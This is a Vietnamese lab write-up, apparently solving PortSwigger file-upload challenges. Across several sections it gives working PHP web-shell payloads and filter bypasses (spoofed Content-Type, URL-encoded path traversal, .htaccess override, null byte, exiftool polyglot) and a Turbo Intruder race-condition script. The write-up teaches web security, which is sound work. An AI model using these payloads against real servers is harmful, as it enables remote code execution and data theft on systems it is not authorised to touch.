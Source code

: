 # 1. Remote code execution via web shell upload
Ta thấy chức năng upload avatar cho phép ta upload bất kì loại file nào. Như vậy ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Sau khi upload file, ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret đã được hiển thị:

![image](https://user-images.githubusercontent.com/103978452/202854734-8fa1c18b-4117-4a3c-b75e-547b67b16588.png)

# 2. Web shell upload via Content-Type restriction bypass
Khi upload file có đuôi .php thì website trả về lỗi, thông báo rằng chỉ cho phép uplaod file với MIME type image/jpeg hoặc image/png.

Ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi thay đổi Content-Type từ `application/x-php` thành `image/jpeg` rồi submit (sử dụng Burp Repeater)

Kết quả thành công. Ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret được hiển thị

![image](https://user-images.githubusercontent.com/103978452/202857559-21ced5bd-38e0-47f0-a627-0b64162b40f7.png)

# 3. Web shell upload via path traversal
Ta thử upload file payload.php với nội dung
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi truy cập `/files/avatars/payload.php` thì thấy nội dung file được hiển thị thay vì được execute. Ta sẽ thử upload file payload.php vào các folder khác sử dụng kĩ thuật directory traversal.

Trong tab Repeater của BurpSuite, ta thấy POST request đến `/my-account/avatar` có nội dung như sau:

![image](https://user-images.githubusercontent.com/103978452/202960724-6834b606-d122-43ba-8f10-b716b5a1f5f9.png)

Thay đổi `filename="../payload.php"`, kết quả trả về `The file avatars/payload.php has been uploaded`. Thử với các relative path, absolute path khác cũng có kết quả tương tự. Như vậy có thể server lọc ra filename trước rồi mới upload.

Thử dùng URL encode, thay `filename="%2E%2E%2F%70%61%79%6C%6F%61%64%2E%70%68%70"` (tương ứng `payload="../payload.php` sau khi decode) thì thấy kết quả trả về thành công

![image](https://user-images.githubusercontent.com/103978452/202961066-81908b20-efee-4af1-8076-2c0754a00c5b.png)

Truy cập `/files/payload.php`, ta thấy đoạn code được execute và trả về nội dung file /home/carlos/secret

![image](https://user-images.githubusercontent.com/103978452/202961174-fed4b7c5-a005-4096-b909-b56917ff110d.png)

# 4. Web shell upload via extension blacklist bypass
Ta thấy server đã chặn các file có đuôi .php. Thử sử dụng các kỹ thuật để obfuscate file extension, kết quả không thành công

Ta thử bypass bằng cách upload file `.htaccess` với nội dung:
```
AddType application/x-httpd-php .jpg
```
File này sẽ cấu hình server cho phép chạy các file có đuôi .jpg như một file php

![image](https://user-images.githubusercontent.com/103978452/203673325-04ed4e21-1fcb-466d-b8a7-13d0386969ac.png)

Kết quả upload file thành công. Ta tiếp tục upload file `payload.jpg` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Sau đó truy cập `/files/avatars/payload.jpg`, kết quả thu được nội dung file cần tìm.

![image](https://user-images.githubusercontent.com/103978452/203673682-3cca7ead-61ec-48b3-954c-9212adc7ea37.png)

# 5. Web shell upload via obfuscated file extension
Ta upload file `payload.php` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
thì server trả về thông báo lỗi: "Sorry, only JPG & PNG files are allowed"

Ta thay đổi filename thành `payload.php%00.jpg` rồi submit, kết quả thành công.

Truy cập `/files/avatars/payload.php` thu được nội dung file cần tìm

![image](https://user-images.githubusercontent.com/103978452/203674340-7274dfef-a47e-4a9d-82c6-3e832485c6c6.png)

# 6. Remote code execution via polyglot web shell upload
Ta upload file `payload.php` thì thấy server trả về `Error: file is not a valid image`.

Dùng ExifTool để chèn một đoạn php vào trong file image `naruto.jpg` với lệnh:
```
exiftool -DocumentName="<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); ?>" naruto.jpg
```
Sau đó đổi tên file thành `naruto.php` và upload lên website. Kết quả trả về thành công. Dùng BurpSuite để bắt request, ta thấy trong nội dung file có chứa đoạn code đã được inject

![image](https://user-images.githubusercontent.com/103978452/203678647-73fc07b3-f7f7-43df-99c5-e64a5bbbf57d.png)

Thử truy cập `/files/avatars/naruto.php` thì server trả về lỗi `500 Internal Server Error`. Như vậy có khả năng trong phần thân image có các kí tự đặc biệt như `<?` khiến cho đoạn code bị lỗi. Ta dùng lệnh `__halt_compiler() ?>` để các đoạn code bên dưới không được execute. Như vậy injected code sẽ là:
```
<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); __halt_compiler();
```
Sau khi upload, truy cập `/files.avatars/naruto.php`, kết quả trả về nội dung file mong muốn.

![image](https://user-images.githubusercontent.com/103978452/203678976-af5de655-ed73-404e-a818-fb4515bea3ca.png)

# 6. Web shell upload via race condition
Website có chứa lỗ hổng race condition. Như vậy có khả năng khi ta submit, server sẽ upload file lên directory đích, sau đó validate xem file có hợp lệ hay không, nếu không hợp lệ sẽ xóa file đi. Để exploit, ta sẽ tiến hành gửi nhiều asynchronous request đến server (cụ thể là 1 request POST chèn file chứa executable code và 5 request GET đến file đã upload), để có thể lấy ra nội dung file trước khi quá trình validation hoàn thành và file bị xóa. 

Tạo file `payload.php` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret') ?>`
```
Upload `payload.php` lên server rồi bắt request với BurpSuite, sử dụng Turbo Intruder để tiến hành gửi liên tiếp nhiều request. Ta thay đổi cấu hình để tiến hành attack như sau:
```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10
                           )

    request1 = ""\
    "POST /my-account/avatar HTTP/1.1\r\n"\
    "Host: 0ad4001c04e199bbc0fe187e005800e2.web-security-academy.net\r\n"\
    "Cookie: session=XYik7TKj4qhdc4WrpanqSGCM7XRyRSIi\r\n"\
    "Content-Length: 470\r\n"\
    "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Connection: close\r\n"\
    "\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Content-Disposition: form-data; name=\"avatar\"; filename=\"payload.php\"\r\n"\
    "Content-Type: application/x-php\r\n"\
    "\r\n"\
    "<?php\r\n"\
    "echo file_get_contents('/home/carlos/secret');\r\n"\
    "?>\r\n"\
    "\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Content-Disposition: form-data; name=\"user\"\r\n"\
    "\r\n"\
    "wiener\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Content-Disposition: form-data; name=\"csrf\"\r\n"\
    "\r\n"\
    "4jKrjI1ZTj4GxVtpvc3IVGHEonQBYYyb\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG--\r\n\r\n\r"

    request2 = ""\
    "GET /files/avatars/payload.php HTTP/1.1\r\n"\
    "Host: 0ad4001c04e199bbc0fe187e005800e2.web-security-academy.net\r\n"\
    "Cookie: session=XYik7TKj4qhdc4WrpanqSGCM7XRyRSIi\r\n"\
    "Connection: close\r\n\r\n"

    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race2')

    engine.openGate('race1')
    engine.openGate('race2')
    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
Sau khi click "Attack", ta thấy trong số 5 request thì có 3 request có chứa nội dung file /home/carlos/secret

![image](https://user-images.githubusercontent.com/103978452/203930889-5895a577-b620-4195-8ad6-160e3cf85dd0.png)

Sử dụng thông tin thu được để submit, kết quả thành công.
